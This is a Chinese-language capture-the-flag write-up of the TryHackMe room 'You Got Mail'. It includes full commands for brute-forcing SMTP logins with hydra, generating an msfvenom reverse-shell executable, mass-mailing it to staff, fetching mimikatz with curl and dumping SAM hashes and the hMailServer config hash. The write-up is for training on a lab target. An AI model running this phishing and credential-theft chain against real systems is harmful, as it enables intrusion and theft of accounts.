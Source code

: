 ```yaml
---
title: You Got Mail
subtitle:
date: 2025-03-14T12:27:45+08:00
slug: c247f47
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - TryHackMe
categories:
  - TryHackMe
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

先查看题目给出的网站

![](images/667c671cc1a91a091bfd34d6b4aa338e.png)

在Our Team页面发现一些邮箱，根据题目内容可能和题目有关

![](images/d7e9da3c9f4fc60a659357cf17d03700.png)



```
root㉿T1ngWin vim email.txt

fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```

没什么思路了，先查看一下端口吧
nmap扫描发现只有一些邮件服务和一些Winodws服务开放

``` Shell
root@ip-10-10-154-154:~# nmap -T4 -n -sC -sV -Pn -p- 10.10.84.228
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 18:48 GMT
Stats: 0:01:59 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 52.63% done; ETC: 18:50 (0:00:32 remaining)
Nmap scan report for 10.10.84.228
Host is up (0.00030s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: OK CHILDREN IDLE NAMESPACE IMAP4rev1 RIGHTS=texkA0001 IMAP4 CAPABILITY completed SORT ACL QUOTA
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRICK-MAIL
|   NetBIOS_Domain_Name: BRICK-MAIL
|   NetBIOS_Computer_Name: BRICK-MAIL
|   DNS_Domain_Name: BRICK-MAIL
|   DNS_Computer_Name: BRICK-MAIL
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-13T18:50:40+00:00
| ssl-cert: Subject: commonName=BRICK-MAIL
| Not valid before: 2025-02-12T18:45:16
|_Not valid after:  2025-08-14T18:45:16
|_ssl-date: 2025-02-13T18:50:45+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:ED:BB:0E:C7:39 (Unknown)
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BRICK-MAIL, NetBIOS user: <unknown>, NetBIOS MAC: 02:ed:bb:0e:c7:39 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-02-13T18:50:39
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.61 seconds
```

好像并没有什么用，尝试根据网站创建自定义密码

``` Shell
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

hydra测试邮箱登录密码（nmap扫描得到smtp端口为587）

``` Shell
hydra -L email.txt -P password.txt 10.10.84.228 smtp -s 587 -t 16
```



![](images/c8608fafe5c0b2c4789458a04b763577.png)

获得邮箱账号登录密码，尝试利用反向shell创建可执行文件

``` Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.200.215 LPORT=443 -f exe -o shell.exe
```

使用已经获取账户密码的用户发送可执行文件到其他用户

``` Shell
for email in $(cat email.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.84.228:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done 
```

发送成功

![](images/7b55538990b1f3b03cf57a415715f964.png)

同时监听443端口

``` Shell
nc -lnvp 443
```



![](images/29a41743e330c4d6afae6484bc4984c0.png)

发现此时的权限是wrohit，尝试获取桌面flag

``` Shell
dir C:\Users\wrohit\Desktop
type C:\Users\wrohit\Desktop\flag.txt
```



![](images/6eb99a9624e7d686bb3be955787bcfbc.png)

接下来尝试查找wrohit用户的密码，此时该用户是位于Administrators下的，所以只需要把mimikatz.exe上传即可，上传至ProgramData文件夹内

``` Shell
curl http://10.10.200.215:8888/mimikatz.exe -o mimikatz.exe
```

利用mimikatz获取哈希密码

``` Shell
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```



![](images/1c7a8fbb3cee2b5e8f7c1d8b2db34f4e.png)

在线平台破解哈希即可 https://crackstation.net/

![](images/fcb42c276516424eb3a2f9bdfdb023ee.png)

最后任务是找到hMailServer Administrator Dashboard
该密码存在在在`C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI`
读取文件即可

``` Shell
type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
```



![](images/f9c9c1df8587bd0d2a24ceca819a5c18.png)

破解哈希

![](images/714215a672e9cb9b2449ccddce01fdd8.png)

结束



![](images/9304f15558c8f132b296223569b71418.png)



